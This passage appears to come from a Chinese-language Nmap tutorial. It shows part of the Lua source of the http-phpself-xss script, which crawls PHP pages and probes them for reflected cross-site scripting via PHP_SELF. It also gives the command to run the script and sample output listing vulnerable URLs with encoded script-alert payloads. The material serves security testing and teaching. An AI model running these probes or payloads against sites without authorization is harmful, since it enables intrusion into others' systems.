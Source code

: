 ```
        if ( not(status) ) then
          if ( r.err ) then
            return stdnse.format_output(true, "ERROR: %s", r.reason)
          else
            break
          end
        end

        local parsed = url.parse(tostring(r.url))

        --Only work with .php files
        if ( parsed.path and parsed.path:match(".*.php") ) then
            --The following port/scheme code was seen in http-backup-finder and its neat =)
            local host, port = parsed.host, parsed.port
            if ( not(port) ) then
              port = (parsed.scheme == 'https') and 443
              port = port or ((parsed.scheme == 'http') and 80)
            end
            local escaped_link = parsed.path:gsub(" ", "%%20")
            if launch_probe(host,port,escaped_link) then
              table.insert(vulnpages, parsed.scheme..'://'..host..escaped_link..PHP_SELF_PROBE)
            end
          end
      end

      if ( #vulnpages > 0 ) then
        vuln.state = vulns.STATE.EXPLOIT
        vulnpages.name = "Vulnerable files with proof of concept:"
        vuln.extra_info = stdnse.format_output(true, vulnpages)..crawler:getLimitations()
      end

      return vuln_report:make_output(vuln)

    end
    ```

要运行脚本，请使用以下命令：

```
    $ nmap -p80 --script http-phpself-xss.nse <target>

    ```

如果 PHP 文件通过`$_SERVER["PHP_SELF"]`注入易受跨站脚本攻击，输出将类似于这样：

```
    PORT   STATE SERVICE REASON
    80/tcp open  http    syn-ack
     http-phpself-xss:
       VULNERABLE:
       Unsafe use of $_SERVER["PHP_SELF"] in PHP files
         State: VULNERABLE (Exploitable)
         Description:
           PHP files are not handling safely the variable $_SERVER["PHP_SELF"] causing Reflected Cross Site Scripting vulnerabilities.

         Extra information:

       Vulnerable files with proof of concept:
         http://calder0n.com/sillyapp/three.php/%27%22/%3E%3Cscript%3Ealert(1)%3C/script%3E
         http://calder0n.com/sillyapp/secret/2.php/%27%22/%3E%3Cscript%3Ealert(1)%3C/script%3E
         http://calder0n.com/sillyapp/1.php/%27%22/%3E%3Cscript%3Ealert(1)%3C/script%3E
         http://calder0n.com/sillyapp/secret/1.php/%27%22/%3E%3Cscript%3Ealert(1)%3C/script%3E
       Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=calder0n.com
```